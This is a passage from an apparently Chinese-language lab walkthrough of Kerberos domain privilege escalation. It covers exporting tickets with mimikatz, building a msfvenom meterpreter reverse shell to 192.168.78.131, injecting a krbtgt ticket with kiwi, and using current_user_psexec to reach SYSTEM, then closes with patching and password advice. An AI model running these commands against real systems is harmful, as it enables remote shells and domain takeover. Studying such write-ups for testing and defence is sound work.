 [![IkCzCj.png](https://z3.ax1x.com/2021/11/02/IkCzCj.png)](https://imgtu.com/i/IkCzCj)

接下来，进行格式转换。因为 MSF 不支持 bin 文件的导入，所以要先使用 mimikatz 对文件进行转换。在 mimikatz 输入命令，导出 kirbi 格式的文件。

```
kerberos::clist "20211102200116_default_192.168.1.1_windows.kerberos_250451.bin" /export
```

msf 生成一个反向 shell：

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.78.131 LPORT=4444 -f exe>shell.exe
```

msf 监听，拿到 win7  meterpreter 会话

```
use exploit/multi/reverse_tcp
set lhost 192.168.78.131
set lport 4444
exploit
```

```
meterpreter > getuid
Server username: hacke.testlab\testuser
```

输入 `load kiwi` ,然后输入

```
kerberos_ticket_use /tool/0-00000000-testuser@krbtgt-HACKE.TESTLAB.kirbi
```

接着输入 ``background``，切换到 MSF 后台，使用高权限票据进行测试：

```
msf exploit(handler) > use exploit/windows/local/current_user_psexec
    设置相关选项
    exploit
    .....
    .....
    meterpreter > getuid
    Server username: NT AUTHORITY\SYSTEM
```

#### 防范建议

针对 Kerberos 域用户提权漏洞：

+ 开启 Windows Update 功能，进行自动更新。
+ 手动下载补丁包进行修复。
+ 对域内账号进行控制，禁止使用弱口令，及时，定期修改密码。
+ 在服务器上安装反病毒软件，及时更新病毒库。